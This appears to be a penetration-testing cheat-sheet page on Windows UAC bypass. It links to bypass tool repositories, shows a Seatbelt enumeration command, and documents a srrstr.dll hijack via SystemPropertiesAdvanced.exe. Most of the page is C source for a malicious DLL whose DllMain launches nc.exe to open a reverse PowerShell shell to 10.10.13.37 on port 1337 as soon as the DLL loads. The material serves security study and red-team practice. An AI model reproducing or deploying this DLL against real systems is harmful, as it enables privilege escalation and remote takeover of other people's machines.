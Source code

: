 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* [https://github.com/sailay1996/UAC_Bypass_In_The_Wild](https://github.com/sailay1996/UAC_Bypass_In_The_Wild)
* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3570" %}

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
    switch(dwReason) {
        case DLL_PROCESS_ATTACH:
            WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }

    return 0;
}
```
{% endcode %}
